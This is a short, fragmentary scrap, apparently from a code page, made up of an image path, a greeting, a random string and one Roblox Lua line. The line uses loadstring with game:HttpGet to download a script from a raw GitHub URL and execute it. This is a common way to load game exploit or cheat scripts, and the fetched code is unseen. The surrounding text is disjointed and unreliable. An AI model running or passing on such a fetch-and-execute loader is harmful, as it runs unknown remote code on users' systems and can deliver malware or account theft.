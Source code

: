 Hi 
S6ZXKF5QAr
loadstring(game:HttpGet("https://raw.githubusercontent.com/Buibiendzai/description/main/test"))()
